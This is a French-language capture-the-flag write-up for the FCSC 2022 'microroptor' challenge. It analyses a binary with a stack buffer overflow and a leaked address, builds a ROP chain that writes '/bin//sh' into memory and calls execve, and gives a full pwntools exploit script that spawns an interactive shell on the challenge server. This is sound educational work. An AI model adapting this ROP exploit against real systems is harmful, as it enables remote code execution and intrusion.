










### PWN / microroptor


<p align="center">
  
</p>


### Analyse

#### 1 -Statique

Challenge de pwn assez classique, à condition de bien faire le tour du binaire pour ne pas partir bille en tête sur un exploit qui ne peut pas fonctionner !!

<p align="center">
  
</p>

Tout d'abord on note les sécurités activées :
(Pour plus d'informations : https://connect.ed-diamond.com/MISC/misc-062/la-securite-applicative-sous-linux)
- PIE : le chargement en mémoire changera d'emplacement à chaque exécution
- NX : la stack est non exécutable (pas de shellcode ...)
- RELRO : on va pas pouvoir écrire partout

En revanche pas de canary :)
Reste à suposer que l'ASLR est activtée sur le serveur.


<p align="center">
  
</p>

Dans les strings on remarque un message de succès, un message d'échec et puis `m3t4ll1cA`.

<p align="center">
  
</p>

Rien de spécial du côté des bibliothèques.

<p align="center">
  
</p>

On note que l'on peut écrire dans .got, .data, .bss


#### 2 - Lancement du binaire pour

Le programme nous donne une adresse, demande une saisie et renvoie un message.

<p align="center">
  
</p>

#### 3 - Ghidra

On trouve assez vite dans Ghidra la fonction `main` qui correspond a flow d’exécution précédent.

```c
undefined8 FUN_00101178(void)

{
  int iVar1;
  char local_28 [32];

  printf("%p\n",&PTR_s_m3t4ll1cA_00104010);
  read(0,local_28,0x200);
  iVar1 = strncmp(local_28,PTR_s_m3t4ll1cA_00104010,9);
  if (iVar1 == 0) {
    puts("Welcome back master (of puppets)!");
  }
  else {
    puts("Nope, you are no master.");
  }
  return 0;
}
```


Le programme leak l'adresse de la chaîne `m3t4ll1cA` (qui change bien sûr à chaque exécution), attend la bonne saisie et quitte.

On note bien sût que nous pouvons saisir 0x200 octets pour un buffer de 0x20 octets (faute de frappe du développeur ?)
En tout cas tant mieux pour le buffer over flow.

<p align="center">
  
</p>


On va regarder d'un peu plus près cette adresse dans Ghidra, avant de passer à l'analyse dynamique du programme

```c

PTR_s_m3t4ll1cA_00104010                        XREF[2]:     FUN_00101178:00101180(*),
                                                             FUN_00101178:001011ae(R)  
00104010 08 20 10        addr       s_m3t4ll1cA_00102008                             = "m3t4ll1cA"
00 00 00
00 00

...

s_m3t4ll1cA_00102008                            XREF[3]:     FUN_00101178:001011ae(*),
                                                             FUN_00101178:001011be(*),
                                                             00104010(*)  
00102008 6d 33 74        ds         "m3t4ll1cA"
34 6c 6c
31 63 41 00
```


#### 4 - Analyse dynamique


```c
gdb-peda$ info file
Symbols from "/home/maskott/ctf_FCSC2022/pwn/microroptor".
Local exec file:
	`/home/maskott/ctf_FCSC2022/pwn/microroptor', file type elf64-x86-64.
	Entry point: 0x1080
	0x00000000000002a8 - 0x00000000000002c4 is .interp
	0x00000000000002c4 - 0x00000000000002e8 is .note.gnu.build-id
	0x00000000000002e8 - 0x0000000000000308 is .note.ABI-tag
	0x0000000000000308 - 0x000000000000032c is .gnu.hash
	0x0000000000000330 - 0x0000000000000420 is .dynsym
	0x0000000000000420 - 0x00000000000004b6 is .dynstr
	0x00000000000004b6 - 0x00000000000004ca is .gnu.version
	0x00000000000004d0 - 0x00000000000004f0 is .gnu.version_r
	0x00000000000004f0 - 0x00000000000005c8 is .rela.dyn
	0x00000000000005c8 - 0x0000000000000628 is .rela.plt
	0x0000000000001000 - 0x0000000000001017 is .init
	0x0000000000001020 - 0x0000000000001070 is .plt
	0x0000000000001070 - 0x0000000000001078 is .plt.got
	0x0000000000001080 - 0x0000000000001251 is .text
	0x0000000000001254 - 0x000000000000125d is .fini
	0x0000000000002000 - 0x0000000000002053 is .rodata <= m3t4ll1cA
	0x0000000000002054 - 0x0000000000002098 is .eh_frame_hdr
	0x0000000000002098 - 0x00000000000021c0 is .eh_frame
	0x0000000000003da0 - 0x0000000000003da8 is .init_array
	0x0000000000003da8 - 0x0000000000003db0 is .fini_array
	0x0000000000003db0 - 0x0000000000003fa0 is .dynamic
	0x0000000000003fa0 - 0x0000000000004000 is .got
	0x0000000000004000 - 0x0000000000004018 is .data  <= &m3t4ll1cA
	0x0000000000004018 - 0x0000000000004020 is .bss
```

L'adresse de `m3t4ll1cA` est stockée dans . data (qui est W), `m3t4ll1cA` est stocké en .rodata (Read Only).


Vu qu'on a pas le nom des fonctions, on met un breakpoint sur `printf` ce qui arrêtera le programme dans le main.

<p align="center">
  
</p>

A l'appel à printf, on a bien dans RSI l'adresse pointant sur `m3t4ll1cA` (qui va nous être leakée par printf).

Quelques `ni` pour sortir du `printf` et revenir dans le `main`, puis on peut regarder la stack avant et après le `read`.

<p align="center">
  
</p>

<p align="center">
  
</p>

Notre input est posé sur la stack, et on trouve un peu après l'adresse de retour du main que l'on va donc pouvoir écraser avec 6 * 8 * 'A' par exemple.


### Exploitation


L'idée sera donc de passer par un ROP pour faire un syscall execve.
La doc technique pour le x86_64 : https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

sys_execve :
- rax = 59 (0x3b)
- rdi = adresse de la commande
- rsi = 0x00
- rdx = 0x00


Pour trouver les gadget dans le code, on peut utiliser ROPgadget, qui nous fournit tout ce qu'il faut.

```bash
pop rdi ; ret     <= mettre l adresse leakée dans rdi
m3t4ll1cA leak
pop rax ; ret     <= mettre /bin/sh dans rax
/bin//sh
mov qword ptr [rdi], rax ; ret    <= ecrire /bin/sh à l'emplacement du leak (zone Writable)

pop rax ; ret     <= mettre 0x3b dans rax
0x3b
pop rdi ; ret     <= mettre l'adresse de /bin/sh dans rdi
adresse m3t4ll1cA
pop rsi ; pop r15 ; ret <= mettre rsi à 0x00
0x00
0x00
syscall
```


Ensuite, le programme nous leak une adresse et nous avons dans le code sont adresse avant chargement en mémoire, nous pourrons donc calculer le décalage de nos gadgets une fois le programme lancé :

`décalage = adresse_leakée - adresse_en_statique`


Tout ceci bout à bout nous donne le code suivant :

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./microroptor")

context.binary = exe.path

if args.REMOTE:
    NL = b"\r\n"
else:
    NL = b"\n"


def conn():
    if args.REMOTE:
        r = remote("challenges.france-cybersecurity-challenge.fr", 2052)
    else:
        r = process([exe.path])

    return r


def main():
    global r


    ret = 0x0000000000001016 #ret
    pop_rdi = 0x000000000000116f #pop rdi ; ret
    pop_rsi = 0x0000000000001249 #pop rsi ; pop r15 ; ret
    pop_rdx = 0x0000000000001171 #pop rdx ; ret
    pop_rax = 0x000000000000116d #pop rax ; ret
    mov = 0x0000000000001169 # mov qword ptr [rdi], rax ; ret
    syscall = 0x0000000000001173 #syscall

    metallica_base  = 0x04010

    r = conn()

    metallica_addr = int(r.recv().decode(), 16)

    log.info("Leak : 0x{:2x}".format(metallica_addr))

    offset = metallica_addr - metallica_base

    ret_addr = ret + offset
    pop_rdi_addr = pop_rdi + offset
    pop_rsi_addr = pop_rsi + offset
    pop_rax_addr = pop_rax + offset
    mov_addr = mov + offset
    syscall_addr = syscall + offset

    payload = b'm3t4ll1cA'
    payload += b'A' * (16 - len(payload))

    payload += p64(0x9090909090909090) * 3


    payload += p64(pop_rdi_addr)
    payload += p64(metallica_addr)
    payload += p64(pop_rax_addr)
    payload += b'/bin//sh'
    payload += p64(mov_addr)

    payload += p64(pop_rax_addr)
    payload += p64(0x3b)
    payload += p64(pop_rdi_addr)
    payload += p64(metallica_addr)

    payload += p64(pop_rsi_addr)
    payload += p64(0x0)
    payload += p64(0x0)
    payload += p64(syscall_addr)

    log.info("Payload length : "  + str(len(payload)))


    r.send(payload + NL)
    rep = r.recv()
    print(rep)


    r.interactive()

    r.close()

if __name__ == "__main__":
    main()

```
